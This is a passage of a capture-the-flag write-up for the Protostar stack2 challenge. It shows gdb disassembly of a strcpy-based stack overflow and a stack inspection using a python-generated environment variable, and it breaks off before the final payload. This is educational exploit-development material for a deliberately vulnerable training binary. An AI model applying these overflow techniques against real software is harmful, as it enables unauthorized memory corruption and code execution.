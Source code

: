 ```shell
user@protostar:/opt/protostar/bin$ env -i GREENIE=$(python -c 'print "A" * 20') gdb ./stack2
(gdb) set disassembly-flavor intel
(gdb) disassemble main
Dump of assembler code for function main:
0x08048494 <main+0>:    push   ebp
0x08048495 <main+1>:    mov    ebp,esp
0x08048497 <main+3>:    and    esp,0xfffffff0
0x0804849a <main+6>:    sub    esp,0x60
0x0804849d <main+9>:    mov    DWORD PTR [esp],0x80485e0
0x080484a4 <main+16>:   call   0x804837c <getenv@plt>
0x080484a9 <main+21>:   mov    DWORD PTR [esp+0x5c],eax
0x080484ad <main+25>:   cmp    DWORD PTR [esp+0x5c],0x0
0x080484b2 <main+30>:   jne    0x80484c8 <main+52>
0x080484b4 <main+32>:   mov    DWORD PTR [esp+0x4],0x80485e8
0x080484bc <main+40>:   mov    DWORD PTR [esp],0x1
0x080484c3 <main+47>:   call   0x80483bc <errx@plt>
0x080484c8 <main+52>:   mov    DWORD PTR [esp+0x58],0x0
0x080484d0 <main+60>:   mov    eax,DWORD PTR [esp+0x5c]
0x080484d4 <main+64>:   mov    DWORD PTR [esp+0x4],eax
0x080484d8 <main+68>:   lea    eax,[esp+0x18]
0x080484dc <main+72>:   mov    DWORD PTR [esp],eax
0x080484df <main+75>:   call   0x804839c <strcpy@plt>
0x080484e4 <main+80>:   mov    eax,DWORD PTR [esp+0x58]
0x080484e8 <main+84>:   cmp    eax,0xd0a0d0a
0x080484ed <main+89>:   jne    0x80484fd <main+105>
0x080484ef <main+91>:   mov    DWORD PTR [esp],0x8048618
0x080484f6 <main+98>:   call   0x80483cc <puts@plt>
0x080484fb <main+103>:  jmp    0x8048512 <main+126>
0x080484fd <main+105>:  mov    edx,DWORD PTR [esp+0x58]
0x08048501 <main+109>:  mov    eax,0x8048641
0x08048506 <main+114>:  mov    DWORD PTR [esp+0x4],edx
0x0804850a <main+118>:  mov    DWORD PTR [esp],eax
0x0804850d <main+121>:  call   0x80483ac <printf@plt>
0x08048512 <main+126>:  leave
0x08048513 <main+127>:  ret
```

From the assembly code, **modified** is stored at **[esp+0x58]**. I will set a breakpoint at `0x080484e4`, right after the **strcpy** call.

``` shell
(gdb) break *0x080484e4
Breakpoint 1 at 0x80484e4: file stack2/stack2.c, line 22.
(gdb) r
Starting program: /opt/protostar/bin/stack2

Breakpoint 1, main (argc=1, argv=0xbffffe94) at stack2/stack2.c:22
...
(gdb) x/24wx $esp
0xbffffd80:     0xbffffd98      0xbfffffa1      0xb7fff8f8      0xb7f0186e
0xbffffd90:     0xb7fd7ff4      0xb7ec6165      0x41414141      0x41414141
0xbffffda0:     0x41414141      0x41414141      0x41414141      0x08048300
0xbffffdb0:     0xb7ff1040      0x08049748      0xbffffde8      0x08048549
0xbffffdc0:     0xb7fd8304      0xb7fd7ff4      0x08048530      0xbffffde8
0xbffffdd0:     0xb7ec6365      0xb7ff1040      0x00000000      0xbfffffa1
(gdb) x/wx $esp+0x58
0xbffffdd8:     0x00000000
```
